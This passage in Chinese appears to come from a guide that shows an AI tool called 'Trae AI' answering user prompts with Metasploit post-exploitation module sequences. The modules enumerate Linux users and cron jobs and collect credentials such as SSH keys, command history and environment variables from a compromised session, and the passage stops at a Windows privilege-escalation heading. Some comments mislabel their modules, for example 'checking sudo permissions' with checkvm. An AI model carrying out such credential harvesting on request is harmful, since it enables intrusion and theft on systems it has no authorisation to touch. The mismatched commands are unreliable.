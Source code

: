 **用戶提問：**
```
枚舉 Linux 系統的用戶和權限信息
```

**Trae AI 操作流程：**
```
# 枚舉用戶賬戶
use post/linux/gather/enum_users_history
set SESSION 1
run

# 檢查 sudo 權限
use post/linux/gather/checkvm
set SESSION 1
run

# 枚舉 cron 任務
use post/linux/gather/enum_cron
set SESSION 1
run
```

### 8. Linux 憑據收集

**用戶提問：**
```
從 Linux 系統中收集憑據信息
```

**Trae AI 操作流程：**
```
# 收集 SSH 密鑰
use post/linux/gather/enum_users_history
set SESSION 1
run

# 檢查歷史命令
use post/linux/gather/enum_commands
set SESSION 1
run

# 枚舉環境變量
use post/linux/gather/enum_environment
set SESSION 1
run
```

## 權限提升

### 9. Windows 權限提升

**用戶提問：**
```
嘗試在 Windows 系統上提升權限
```
